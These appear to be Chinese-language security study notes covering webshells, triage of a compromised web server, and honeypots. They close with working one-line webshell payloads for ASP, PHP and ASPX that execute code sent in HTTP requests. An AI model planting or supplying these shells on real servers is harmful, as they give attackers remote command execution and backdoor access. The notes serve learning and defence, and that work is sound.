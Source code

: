 ## 什么是 WebShell? 

WebShell 就是以 asp、php、jsp 或者 cgi 等网页文件形式存在的─种命令执行环 境，也可以将其称做为─种网页后门。攻击者入侵网站后，通常会将webshell与与那本正常的网络文件混在一起，然后就可以通过浏览器访问webshell文件得到一个命令执行环境。

## Web 服务器被入侵后，怎样进行排查？

1. 查看下 web 服务器日志 
2. 看看有没有异常端口开放 
3. 使用安全狗等服务器安全软件清扫 

## 蜜罐

蜜罐好比是情报收集系统。蜜罐好像是故意让人攻击的目标，引诱黑客前来攻击。 所以攻击者入侵后，你就可以知道他是如何得逞的，随时了解针对服务器发动的 最新的攻击和漏洞。还可以通过窃听黑客之间的联系，收集黑客所用的种种工具， 并且掌握他们的社交网络。 

## 一句话木马
asp:<%execute(request("value"))%>
php:<?php @eval($_POST[x]); ?>
aspx:<%@ PageLanguage="Jscript"%>
     <%eval(Request.Item["value"])%>
     
